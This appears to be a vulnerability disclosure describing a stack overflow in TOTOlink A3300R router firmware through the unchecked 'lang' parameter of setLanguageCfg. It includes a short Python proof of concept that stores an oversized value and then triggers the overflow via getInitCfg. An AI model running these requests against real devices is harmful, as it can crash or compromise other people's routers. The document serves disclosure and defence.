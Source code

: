 ## Summary

A stack overflow vulnerability exists in the TOTOlink A3300R firmware. The `lang` POST parameter accepted by `setLanguageCfg` function is written to the configuration key `lang_type` via `Uci_Set_Str` without length or content validation. The stored value is later read via `getInitCfg`function and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & version

- Device: TOTOlink A3300R
- Firmware Version: V17.0.0cu.557_B20221024
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `Uci_Set_Str` and `Uci_Get_Str` functions that handle `lang_type`.

## Vulnerability details

The `setLanguageCfg` endpoint accepts a POST parameter `lang` and calls `Uci_Set_Str(11, "main", "lang_type", v4)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_124813.png)

The `getInitCfg` endpoint retrieves the `lang_type` parameter using `Uci_Get_Str(11, "main", "lang_type", v29)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_124952.png)

## POC

1. **Store `lang_type` **

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
payload = b"a"*0x1000
data = {"topicurl":"setLanguageCfg","lang":payload,"langAutoFlag":"1"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

2. **Trigger**

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"getInitCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

3. **result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_114256.png)

